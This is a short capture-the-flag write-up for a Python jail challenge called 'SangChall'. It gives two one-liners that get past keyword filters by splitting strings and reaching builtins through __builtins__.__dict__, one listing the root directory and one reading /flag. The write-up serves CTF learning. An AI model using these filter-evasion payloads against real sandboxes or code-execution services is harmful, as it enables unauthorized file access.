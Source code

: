 # SangChall

## Description

Abijail comeback from Ssangmun-dong

To list files:

```python
print(__builtins__.__dict__["__impo""rt__"]("o""s").listdir("/"))
```

To read the flag:

```python
print(getattr(__builtins__.__dict__["op""en"]("/fl""ag"),"re""ad")())
```
